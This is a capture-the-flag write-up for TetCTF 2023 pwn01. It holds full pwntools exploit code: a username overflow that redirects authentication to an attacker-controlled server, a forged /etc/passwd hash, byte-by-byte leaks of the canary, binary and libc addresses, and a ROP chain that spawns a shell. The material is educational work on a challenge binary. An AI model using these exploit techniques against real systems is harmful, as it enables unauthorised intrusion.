







# TetCTF 2023 - pwn01



You can download challenge files in my repo: [pwn01.zip](pwn01.zip)

# 1. Find bug & Generate idea

In main(), there are 3 options for us to choose:



However, we cannot do anything except login so that's the first thing we need to do. Here is the result from IDA for function login():



Maybe because a large space for each variabel so IDA seems to work wrong when defining variables, so we need to use debugger to test our input to check if there are any bug when we input data. By inputing max allowed bytes, we got a **Buffer Overflow** in username which change the ipv4, variable `v8` to our desired ipv4 and when it runs connect_to_server(), it will connect to that ip at port 6666:



Hence, we can make the program connect to our vps and get the data. In check_credential(), it executes fgets() to get data from the connected server and that data is from file `/etc/passwd` of server. How did I know? I guessed that it connect to an internel server because domain `tet.ctf` is not valid in public, but it's not loopback `127.0.0.1` so maybe we can try, I tried connecting to server with port 6666 and get leaked:



So we know the format. We still need to make the global variable `loggedIn` to 1:



So the problem is the crypt() function. After a few attempts trying with different combination, I found out that this key and salt give hash the same with salt:

```c
// gcc findkey.c -o findkey -lcrypt
#include <crypt.h>
#include <stdio.h>
#include <string.h>

int main()
{
	char *salt = "$6$tet$.84DBkpbpZEcXF.WKDJJDSStwXYJir3.WSKOma1e5N20d4SDpbMPLryTcZaB7buisGAsT2GW1bdad74Hh3Ply0";
	char *res = "";

	res = crypt("", salt);
	puts(res);

	salt = "$6$tet$tXRYc/J5H1lWOJDDUv2c2yKKc5SJcozGLLyPbIenZuqhv/2bIxX81n6z2KAisRDQvRMNJGAEDpCyCRmODZHO1.";
	res = crypt("", salt);
	puts(res);
}
```

I tried with null key and with salt taken from server. When we got the salt (or hashed password) then we go to vps and make it echo the string below to the client who connected to:

```
root:$6$tet$tXRYc/J5H1lWOJDDUv2c2yKKc5SJcozGLLyPbIenZuqhv/2bIxX81n6z2KAisRDQvRMNJGAEDpCyCRmODZHO1.:0:0:root:/root:/bin/bash\n\
```

Then we can login. The only option we can use is option 2 with a clearly **Buffer Overflow** again when reading data from files:



After a few times reading, I recognized the file might be generated by urandom (option 5 is `urandom` file) so it will have all bytes from null byte to byte `0xff`. So the idea is to leak canary, exe address and libc address by reading much data to concate the buffer with those value, then recover back byte to byte from higher stack address to lower stack address, from saved rip to saved rbp to canary to make the program work normally. Finally, with that leaked address we can get shell.

So we need to get the file first so that we can build our exploit easily. To that, we will try to print just 0x100 because if we read 

<details>
	<summary>Get file script</summary>

<p>

```python
#!/usr/bin/python3

from pwn import *
from binascii import hexlify, unhexlify

context.binary = exe = ELF('./chall', checksec=False)

filelist = {
	1: "100KB",
	2: "10KB",
	3: "1KB",
	4: "1MB"
}

option = 4
while True:
	if args.LOCAL:
		p = process(exe.path)
	else:
		p = remote("139.162.36.205", 31337)

	######################
	### Stage 1: Login ###
	######################
	if args.LOCAL:
		t1 = listen(6666)
		ip = b'127.0.0.1\0'
	else:
		# ip = <vps ip string> + b'\0'
	p.sendlineafter(b'choice: ', b'1')
	payload = b'root\0' + b'A'*123 + p64(0) + ip
	p.sendafter(b'Username: ', payload.ljust(0xb0, b'A'))
	p.sendafter(b'Password: ', b'\0'*8 + b'B'*0x78)

	if args.LOCAL:
		t1.sendline(b'root:$6$tet$tXRYc/J5H1lWOJDDUv2c2yKKc5SJcozGLLyPbIenZuqhv/2bIxX81n6z2KAisRDQvRMNJGAEDpCyCRmODZHO1.:0:0:root:/root:/bin/bash')

	###################################
	### Stage 2: Leak data in files ###
	###################################
	p.sendlineafter(b'choice: ', b'2')
	if args.LOCAL:
		t1.close()

	# Check if we have read some data
	try:
		with open(filelist[option], 'rb') as f:
			existdata = f.read()
	except:
		existdata = b''

	p.recvuntil(b'read: ')
	p.sendline(str(option).encode())

	# Make it read until where we leaked (these data is not value after leaked)
	p.recvuntil(b'read?')
	if existdata:
		datalen = len(existdata)
		while True:
			if datalen > 0x100:
				p.sendline(str(0x100).encode())
				datalen -= 0x100
			else:
				p.sendline(str(datalen).encode())
				datalen = 0
			output = p.recvuntil(b'How many bytes to read?', drop=True, timeout=2)
			if not output:
				while True:
					if b'No more data!' in p.recvline():
						print("Done!")
						p.close()
						exit()
			if not datalen:
				break


	newdata = b''
	done = 0
	while not done:
		p.sendline(str(0x100).encode())
		# \n is counted as \0
		output = p.recvuntil(b'How many bytes to read?', drop=True, timeout=2)
		if not output:
			while True:
				if b'No more data!' in p.recvline():
					done = 1
					break
		# Make sure we receive enough 0x100 byte and the byte \n 
		# will be counted as \0
		if len(output)==0x101:
			newdata += output[:-1]
		# If not, that mean we meet a null byte so we write down 
		# what we leaked and need to restart all the progress
		else:
			if not done:
				newdata += output[:-1] + b'\0'
			with open(filelist[option], 'ab') as f:
				f.write(newdata)
			p.close()
			if done:
				exit()
			break

p.interactive()
```

</p>
</details>

So if we get the file, how we can use it? We will create a function which takes 3 parameters, one is the byte to be seeked, one is the data and one is the offset (the length from input buffer to the byte we need to recover):

<details>
	<summary>Generate step with specific byte</summary>
<p>

```python
def findbyte(x, data, length):
	step = []

	while True:
		if x in data[length:length*2]:
			pos = length + data[length:length*2].index(x) + 1
			step.append(pos - length)
			step.append(length)
			break
		else:
			data = data[length:]
			step.append(length)
	return step
```

</p>
</details>

# 2. Exploit

### Stage 1: Login ###

As the script for getting file, we can reuse the code:

```python
if args.LOCAL:
	t1 = listen(6666)
	ip = b'127.0.0.1\0'
else:
	# ip = <vps ip string> + b'\0'
p.sendlineafter(b'choice: ', b'1')
payload = b'root\0' + b'A'*123 + p64(0) + ip
p.sendafter(b'Username: ', payload.ljust(0xb0, b'A'))
p.sendafter(b'Password: ', b'\0'*8 + b'B'*0x78)

if args.LOCAL:
	t1.sendline(b'root:$6$tet$tXRYc/J5H1lWOJDDUv2c2yKKc5SJcozGLLyPbIenZuqhv/2bIxX81n6z2KAisRDQvRMNJGAEDpCyCRmODZHO1.:0:0:root:/root:/bin/bash')
```

### Stage 2: Leak canary and stack address ###

Leak canary is necessary but is stack needed? Yeah of course because maybe if we need to leak saved rip of a binary function, we need to overwrite canary and saved rbp to make sure no null byte is inserted between input buffer and saved rip. After that, we need to recover canary and saved rbp so we need to know what is the address of saved rbp.

```python
p.sendlineafter(b'choice: ', b'2')
if args.LOCAL:
	t1.close()

with open('data/1MB', 'rb') as f:
	datas = f.read()

# Offset 0x108 will concatenate buffer with canary
# But due to null byte at LSB of canary so we overwrite that
# null byte to a byte not null so puts() will print canary out
offset = 0x109
datas = datas[offset:]
p.recvuntil(b'read: ')
p.sendline(b'4')
p.recvuntil(b'read?')
p.sendline(f'{offset}'.encode())

output = p.recvuntil(b'\nHow many bytes to read?', drop=True)
canary = u64(output[offset-1:offset-1+8]) & 0xffffffffffffff00
stack_leak = u64(output[offset-1+8:] + b'\0\0')
log.info("Canary: " + hex(canary))
log.info("stack_leak: " + hex(stack_leak))

# Recover the null byte of canary
for size in findbyte(b'\0', datas, offset):
	datas = datas[size:]
	p.sendline(f'{size}'.encode())
	p.recvuntil(b'\nHow many bytes to read?', drop=True)
p.sendline('-1'.encode())
```

### Stage 3: Leak exe address ###

Let's get exe address leak:

```python
with open('data/1MB', 'rb') as f:
	datas = f.read()

# Overwrite canary and saved rbp to leak saved rip which is exe address
offset = 0x118
datas = datas[offset:]
p.sendlineafter(b'choice: ', b'2')
p.recvuntil(b'read: ')
p.sendline(b'4')
p.recvuntil(b'read?')
p.sendline(f'{offset}'.encode())

output = p.recvuntil(b'\nHow many bytes to read?', drop=True)
exe_leak = u64(output[offset:offset+6] + b'\0\0')
exe.address = exe_leak - 0x247c
log.info("Exe leak: " + hex(exe_leak))
log.info("Exe base: " + hex(exe.address))

# Recover canary and saved rbp
payload = flat(
	canary, stack_leak,
)
payload = payload[::-1]
for i in range(len(payload)):
	for size in findbyte(p8(payload[i]), datas, offset - i):
		datas = datas[size:]
		p.sendline(f'{size}'.encode())
		p.recvuntil(b'\nHow many bytes to read?', drop=True)
p.sendline('-1'.encode())
```

### Stage 4: Leak libc address ###

This stage is just the same as the previous stage:

```python
with open('data/1MB', 'rb') as f:
	datas = f.read()

# Overwrite canary, saved rbp, saved rip of the subfunction
# and concate with saved rip of main, which is libc address
offset1 = 0x128
offset2 = 0x120
datas = datas[offset1:]
p.sendlineafter(b'choice: ', b'2')
p.recvuntil(b'read: ')
p.sendline(b'4')
p.recvuntil(b'read?')
p.sendline(f'{offset1}'.encode())

output = p.recvuntil(b'\nHow many bytes to read?', drop=True)
libc_leak = u64(output[offset1:offset1+6] + b'\0\0')
libc.address = libc_leak - 0x29d90
log.info("Libc leak: " + hex(libc_leak))
log.info("Libc base: " + hex(libc.address))

# Recover canary, saved rbp, saved rip of the function
payload = flat(
	canary,
	stack_leak,
	exe_leak,
	)[::-1]
for i in range(len(payload)):
	for size in findbyte(p8(payload[i]), datas, offset2 - i):
		datas = datas[size:]
		p.sendline(f'{size}'.encode())
		p.recvuntil(b'\nHow many bytes to read?', drop=True)
p.sendline('-1'.encode())
```

### Stage 5: Get shell ###

We input payload in a reverse order as previous stage:

```python
with open('data/1MB', 'rb') as f:
	datas = f.read()

p.sendlineafter(b'choice: ', b'2')
p.recvuntil(b'read: ')
p.sendline(b'4')

pop_rdi = libc.address + 0x000000000002a3e5
ret = libc.address + 0x0000000000029cd6
payload = flat(
	canary,
	canary,				# Fake saved rbp
	ret,
	pop_rdi,
	next(libc.search(b'/bin/sh')),
	libc.sym['system']
	)[::-1]

offset = 0x108 + len(payload)
for i in range(len(payload)):
	for size in findbyte(p8(payload[i]), datas, offset - i):
		datas = datas[size:]
		p.sendline(f'{size}'.encode())
		p.recvuntil(b'\nHow many bytes to read?', drop=True)
p.sendline('-1'.encode())
```

# 3. Get flag


Flag is `TetCTF{w4rm_uP_ch4lL3ng3__g0Od_g4m3!}`